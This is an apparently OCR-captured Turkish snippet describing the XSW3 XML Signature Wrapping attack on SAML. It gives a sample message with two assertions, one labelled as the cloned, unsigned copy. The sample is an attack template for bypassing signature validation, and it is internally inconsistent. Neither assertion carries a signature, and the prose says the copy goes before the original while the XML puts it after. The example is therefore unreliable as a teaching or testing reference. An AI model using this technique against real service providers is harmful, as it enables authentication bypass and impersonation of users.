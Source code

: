 - XSW3 :// mevcut Assertion'ın önüne klonlanmış, imzasız bir Assertion kopyası eklenir. 

```
<Assertion xmlns="urn:oasis:names:tc:SAML:2.0:assertion" ID="_e55c9c3e8e9f6744e6e8d18d5f7fdd5a" Version="2.0" IssueInstant="2023-07-02T12:34:56Z">
  <Issuer>https://identity-provider.com</Issuer>
  <Subject>
    <NameID Format="urn:oasis:names:tc:SAML:1.1:nameid-format:unspecified">user@example.com</NameID>
    <SubjectConfirmation Method="urn:oasis:names:tc:SAML:2.0:cm:bearer">
      <SubjectConfirmationData NotOnOrAfter="2023-07-02T12:44:56Z" Recipient="https://service-provider.com/acs"/>
    </SubjectConfirmation>
  </Subject>
  <Conditions NotBefore="2023-07-02T12:34:56Z" NotOnOrAfter="2023-07-02T12:44:56Z">
    <AudienceRestriction>
      <Audience>https://service-provider.com</Audience>
    </AudienceRestriction>
  </Conditions>
  <AuthnStatement AuthnInstant="2023-07-02T12:34:56Z" SessionIndex="_e55c9c3e8e9f6744e6e8d18d5f7fdd5a">
    <AuthnContext>
      <AuthnContextClassRef>urn:oasis:names:tc:SAML:2.0:ac:classes:Password</AuthnContextClassRef>
    </AuthnContext>
  </AuthnStatement>
</Assertion>
<!-- Klonlanmış, imzasız Assertion kopyası -->
<Assertion xmlns="urn:oasis:names:tc:SAML:2.0:assertion" ID="_e55c9c3e8e9f6744e6e8d18d5f7fdd5b" Version="2.0" IssueInstant="2023-07-02T12:34:56Z">
  <Issuer>https://identity-provider.com</Issuer>
  <Subject>
    <NameID Format="urn:oasis:names:tc:SAML:1.1:nameid-format:unspecified">user@example.com</NameID>
    <SubjectConfirmation Method="urn:oasis:names:tc:SAML:2.0:cm:bearer">
      <SubjectConfirmationData NotOnOrAfter="2023-07-02T12:44:56Z" Recipient="https://service-provider.com/acs"/>
    </SubjectConfirmation>
  </Subject>
  <Conditions NotBefore="2023-07-02T12:34:56Z" NotOnOrAfter="2023-07-02T12:44:56Z">
    <AudienceRestriction>
      <Audience>https://service-provider.com</Audience>
    </AudienceRestriction>
  </Conditions>
  <AuthnStatement AuthnInstant="2023-07-02T12:34:56Z" SessionIndex="_e55c9c3e8e9f6744e6e8d18d5f7fdd5b">
    <AuthnContext>
      <AuthnContextClassRef>urn:oasis:names:tc:SAML:2.0:ac:classes:Password</AuthnContextClassRef>
    </AuthnContext>
  </AuthnStatement>
</Assertion>
```
XSW3 senaryosu, SAML Assertion mesajlarında gerçekleşir. Saldırgan, mevcut Assertion'ın önüne, klonlanmış ve imzasız bir Assertion kopyası ekler. Böylece, SAML mesajı birden fazla Assertion içerecek şekilde manipüle edilir.
